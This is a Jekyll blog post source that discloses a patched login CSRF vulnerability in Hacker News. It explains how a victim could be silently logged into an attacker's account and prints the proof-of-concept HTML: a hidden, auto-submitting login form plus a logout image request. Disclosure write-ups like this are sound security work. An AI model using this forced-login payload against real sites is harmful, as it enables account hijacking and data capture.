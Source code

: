 ```yaml
---
layout: post
title: "Hacker News CSRF Vulnerability"
description: "How I found a CSRF vulnerability in Hacker News"
category: articles
modified: 2016-02-24
---
```

  
On February 17th, I discovered a session riding vulnerability on the login and logout forms of Hacker News. The attack was a cross site request forgery (CSRF), triggered by clicking an article posted by the attacker.

When we think of malicious hackers, we often imagine them trying to log into accounts they don't own. But the reverse approach - forcing legitimate users to log into an *attacker*'s account without realizing it - can be just as harmful.

The attack worked like this:

1. Attacker submits a title like "CSRF And You (2008)" with a URL that points to the exploit code.
2. User clicks on interesting article.
3. User is logged out of account, silently logged into an attacker-controlled account, and sent to the comments section.
4. User reads comments section for interesting article.
5. User does other, more sensitive actions in the attacker-controlled account (apply for YC? change email? add credit card? make brilliant karma-rich submission?).

The exploit code looked like this:

    <body onload="document.getElementById('csrf_demo').submit()" style="display:none;">
      <img src="https://news.ycombinator.com/logout" />
      <form id="csrf_demo" action="https://news.ycombinator.com/login" method="post">
        <input name="goto" value="item?id=11122018">
        <input name="acct" value="csrf">
        <input name="pw" value="password">
      </form>
    </body>

I contacted Dan at Hacker News and the team immediately patched the vulnerabilities. This attack no longer works as described above.

To learn more about CSRF and how to protect your site against attacls like this one, read Jeff Atwood's excellent [CSRF and You (2008)](http://blog.codinghorror.com/cross-site-request-forgeries-and-you/) and review the [OWASP Wiki on CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). 

[Disclosure](https://news.ycombinator.com/security.html)